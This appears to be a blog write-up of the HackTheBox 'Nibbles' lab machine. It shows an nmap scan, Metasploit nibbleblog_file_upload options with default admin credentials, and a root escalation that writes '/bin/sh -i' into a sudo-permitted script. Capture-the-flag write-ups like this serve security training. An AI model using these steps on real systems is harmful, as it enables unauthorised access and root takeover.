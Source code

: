 ```yaml
---
layout: post
title:  "HTB Nibbles Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Another breezy box by hackthebox that we can fly through with metasploit.

# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# pwning user
Checking the web source will show us a comment leaking a running web service. Metasploit will do the rest.
```php
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
```
Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nibbles          yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.75      yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog/     yes       The base path to the web application
   USERNAME   admin            yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host
```

# getting root
A quick sudo -l check will show us the route to root.
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
We can use su with monitor.sh without a password. We can echo a bash string into the script to force a root shell is returned.
```
echo '/bin/sh -i' > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
#
```



